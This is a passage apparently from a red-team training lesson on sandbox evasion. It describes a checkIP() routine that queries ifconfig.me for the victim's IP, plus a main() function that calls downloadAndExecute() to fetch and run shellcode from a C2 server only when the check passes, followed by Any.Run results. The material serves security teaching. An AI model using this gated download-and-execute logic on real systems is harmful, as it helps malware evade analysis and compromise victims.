 1. Declare the required variables mentioned above.
2. Open an internet stream with the URLOpenBlockingStreamAÂ function to ifconfig.me/ip to check the current IP Address.
3. Write the data stream returned from theÂ URLOpenBlockingStreamA function to the memory.Â 
4. Append the data from the memory buffer to a string variable.
5. Check and see if the string data is equal to the Victim's IP Address.
6. If True, return TRUE; if False, return FALSE.  
    

Now we must modify our main function so that we can leverage our newly created function:

```cpp
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
} 
```

The code above invokes the new function, checkIP(), and if the IP Address returns TRUE, then invoke the downloadAndExecute() function to call the shellcode from ourÂ C2Â server. If FALSE, returnÂ HTTP/418 - I'm a teapot!".  

**Testing Our Code**

Now that we have wrapped up our second Sandbox Evasion technique, it is very important to know that this is an incredibly commonÂ TTPÂ used by threat actors. Both APTs and Red Teams alike often use services to check the "Abuse Info" of an IP Address to gather information about an IP Address to determine if it is a legitimate company or not.Â [Any.Run](https://app.any.run/)Â is well aware of this Anti-Sandboxing technique and has even flagged it in our instance. You can see the detailed results at the links below:

- [One with an IP Address Filter](https://app.any.run/tasks/dbc2e81a-d7da-4ee5-a628-a5d2d17a0c1a)
- [One without an IP Address Filter](https://app.any.run/tasks/6c721d61-b06a-4497-84fd-1aea34671085)

Looking at the two results, we can see that ifconfig.me is flagged as a "questionable/Potentially Malicious" site used to check for your external IP Address. In fact, this Sandbox evasion method ended up hurting our score, so it should be used as a last resortÂ _or_Â with a recently deployed/custom IP Address checking server. The full report canÂ [be found here](https://any.run/report/c98a60e5d0390ba4ad784b76ec0ce3602272452ffb44ce73dbb849906f2cff4d/dbc2e81a-d7da-4ee5-a628-a5d2d17a0c1a).Â 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/4f9474a7e5ca35c0b58e09702fd966d7.png)  

_A Screenshot from Any.Run showing our run with Sandbox Evasion techniques applied_

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/c5760cd217e139d3e40161fc901563b1.png)  

_Screenshot from Any.Run showing an outboundÂ HTTPÂ Request_

As you are now aware, not all Sandbox escaping techniques may be helpful in certain situations; you must pick and choose which evasion techniques you are going to implement carefully, as some may do more harm than good.
